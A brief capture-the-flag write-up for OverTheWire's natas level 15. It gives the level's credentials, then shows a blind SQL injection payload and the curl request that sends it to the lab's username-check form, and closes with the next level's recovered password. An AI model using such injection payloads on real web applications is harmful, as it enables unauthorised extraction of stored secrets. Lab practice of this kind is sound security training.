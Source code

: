 # natas level15
natas is CTF with web application.
password will be stored in `/etc/natas_webpass/natas15`.

## using credential is below.
- User:natas15
- Pass:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

## using tools.
- shell(curl, base64, etc)
- lynx

check web site by lynx.
`lynx http://natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J@natas15.natas.labs.overthewire.org`

This website has input box for username and search user is exist or not.
And this site has sql injection vulnerability, but retun info only data is exist or not.

I send following and I see that I will get password with many requests.
`natas16" AND password LIKE "%a%"; -- `
`curl -X POST 'http://natas15.natas.labs.overthewire.org/index.php?debug' -u natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J -d 'submit=Check%20existence&username=natas16%22%20AND%20password%20LIKE%20%22%25a%25%22%3b%20%2d%2d%20'`

I make script sqli.rb and got password.
Password:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

